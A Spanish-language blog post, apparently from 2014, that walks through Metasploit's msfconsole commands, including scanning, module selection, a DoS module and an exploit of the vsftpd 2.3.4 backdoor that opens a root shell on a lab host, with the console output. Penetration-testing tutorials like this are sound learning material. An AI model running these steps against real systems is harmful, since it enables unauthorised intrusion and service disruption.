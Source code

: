 ```yaml
---
layout: post
title: "msfconsole"
date: 2014-01-27 18:34
comments: true
categories: 
---
```

[metasploit]

Consola centralizada con acceso a todo las opciones disponibles de Metasploit Framework, única soportada y estable con soporte para de edición de lineas (readline), que permite tabulacion y ejecución de comandos externos.

Uso de comandos externos: Lanzar un ping a un equipo o nmap:

	msf > ping -c 1 192.168.1.10

	msf > nmap 192.168.1.10

Obtener ayuda:

	msf > help

Mostrar módulos disponibles:

	msf > show

Mostrar módulos auxiliares [scanners, modulos de denial of service, fuzzers...]:

	msf > show auxiliary

Obtener una lista de todos los exploits:

	msf > show exploits

Mostrar listado de los diferentes payloads y para las plataformas disponibles:

	msf > show payloads

Nota.- Cuando se está usando un determinado exploit, "show payloads" solo mostrará los que son compatibles para ese exploit concreto. 

Seleccionado un módulo especifico, para mostrar las opciones disponibles y/o requeridas para ese módulo concreto.

	msf exploit(ms08_067_netapi) > show options

Mostrar objetivos soportados:

	msf exploit(ms08_067_netapi) > show targets

Mostrar las opciones avanzadas de un exploit:

	msf exploit(ms08_067_netapi) > show advanced

Buscar cadenas de texto dentro del módulo

	msf > search ms09-001

Buscar información detallada [opciones, objetivos....] sobre un determinado modulo

	msf > info dos/windows/smb/ms09_001_write

Una vez escogido el módulo en particular, seleccionarlo con:

	msf > use dos/windows/smb/ms09_001_write

Y mirar sus opciones requeridas:

	msf auxiliary(ms09_001_write) > show options

Conectar a una Ip y a un puerto:

	msf > connect 192.168.1.10 23

Para configurar las opciones del modulo que se está utilizando:

	msf auxiliary(ms09_001_write) > set RHOST 192.168.1.10

Comprobar de nuevo las opciones del módulo

	msf auxiliary(ms09_001_write) > show options

Mostrar codificaciones disponibles:

	msf exploit(ms08_067_netapi) > show encoders

Escoger la deseada:

	msf exploit(ms08_067_netapi) > set encoder x86/shikata_ga_nai

Comprobar si un objetivo es vulnerable a un exploit sin explotar la vulnerabilidad:

	msf exploit(ms04_045_wins) > check

Para establecer una variable global [setg - save]:

	msf > setg RHOST 192.168.1.136

	RHOST => 192.168.1.136

	msf > save

	Saved configuration to: /root/.msf3/config

Suprimir una variable global:

	msf > unsetg RHOST

Suprimir una variable entrada para un módulo:

	msf > unset RHOST

Lanzar un exploit:

	msf auxiliary(ms09_001_write) > run

Salir del módulo:

	msf auxiliary(ms09_001_write) > back

Cambiar al modo de edición de scripts en ruby:

	msf > irb

1.-

Algunos comandos relacionados con la base de datos propia de metasploit:

	msf > db_status (Mostrar el estado de la conexión a la BDs y nombre)

	msf > db_nmap 192.168.1.10 (Lanzar nmap y guardar el resultado en la BDs)

	msf > hosts (Muestra todos los informes de la BDs)

	msf > hosts 192.168.1.10 (Muestra sólo el informe de la ip especificada)

	msf > services (Muestra todos los servicios de la BDs incluso los inactivos)

	msf > services -u -R 192.168.1.10 (Muestra los servicios activos [u] del host especificado [R])

2.-

Muestra de un scan de puertos:

	Exploradores de puertos disponibles:

		msf > search portscan

	Nota.- Los escáners y la mayoría de módulos auxiliares usan la opción RHOSTS en vez de RHOST y puede ser un rango de IP [192.168.1.10-192.168.1.50], rangos CIDR (192.168.1.0/24), múltiples rangos separados por comas (192.168.1.0/24, 192.168.3.0/24) y una lista en un archivo con una ip por linea (file:/tmp/hostlist.txt). 

	Para escoger el escaneador de puertos a usar:

		msf > use scanner/portscan/tcp

	Comprobar si falta algún parámetro [RHOSTS]

		msf auxiliary(tcp) > show options

	Entrar la ip donde dirigir el escaneo:

		msf auxiliary(tcp) > set RHOSTS 192.168.1.10

	Arancar el escaneo:

		msf auxiliary(tcp) > run

Todos los módulos scanner tiene el valor THREADS en "1". Este valor establece el número de subprocesos simultaneos que se utilizan durante la exploración. Un número superior acelera las exploraciones pero aumenta el tráfico en la red. Para modificar el valor:

	msf > set THREADS 50

3.-

Muestra de un ataque

MSF > use exploit/unix/ftp/vsftpd_234_backdoor

Comprobar parámetros que faltan:

	msf exploit(vsftpd_234_backdoor) > show options

Entrar el parámetro RHOST [la IP atacada]

	msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.1.10

Comprobar nuevamente si el parámetro ha entrado correctamente:

	msf exploit(vsftpd_234_backdoor) > show options

Lanzar el exploit en segundo plano [j] y mostrando una salida positiva en la que se abre una shell en la máquina remota:

	msf exploit(vsftpd_234_backdoor) > exploit -j

	[*] Exploit running as background job.

	[*] Banner: 220 (vsFTPD 2.3.4)

	[*] USERR: 331 Please specify the password.

	msf exploit(vsftpd_234_backdoor) > [+] Backdoor service has been spawned, handling...

	[+] UID: uid=0(root) gid=0(root)

	[*] Found shell.

	[*] Command shell session 1 opened (192.168.1.15:49654 -> 192.168.1.10:6200) at 2013-07-07 08:06:30 -0400

Mostrar las sesiones abiertas [ID de la sesion, puertos abiertos, máquina remota, local...]:

	msf exploit(vsftpd_234_backdoor) > sessions -l

Ejecutar un comando en todas las shells abiertas y mostradas con sessions -l:

	msf exploit(vsftpd_234_backdoor) > sessions -c ifconfig 

Entrar en la session con ID 1:

	msf exploit(vsftpd_234_backdoor) > sessions -i 1

	[*] Starting interaction with 1...

A partir de este punto estamos en una shell clásica de linux del host 192.168.1.10 donde podemos usar todos los comandos propios de dichas shells.

